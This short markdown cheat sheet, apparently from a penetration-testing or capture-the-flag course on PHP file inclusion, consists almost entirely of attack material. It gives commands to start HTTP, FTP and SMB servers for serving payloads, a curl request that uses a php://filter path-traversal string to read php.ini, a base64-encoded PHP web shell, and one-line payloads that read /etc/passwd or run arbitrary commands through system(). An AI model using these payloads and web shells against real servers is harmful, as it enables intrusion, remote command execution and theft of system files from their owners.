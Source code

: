 # Useful Links

# Useful Commands

HTTP Server
```bash
sudo python3 -m http.server <LISTENING_PORT>
```

FTP Server
```bash
sudo python3 -m pyftpdlib -p 21
```
SMB Server
```bash
impacket-smbserver -smb2support share $(pwd)
```
Checking PHP Configurations
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Base64 PHP Shell
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

# Useful Payloads
```php
<?php file_get_contents('/etc/passwd'); ?>
<?php system('cat /flag.txt'); ?>
<?php system($_REQUEST['cmd']); ?>
```
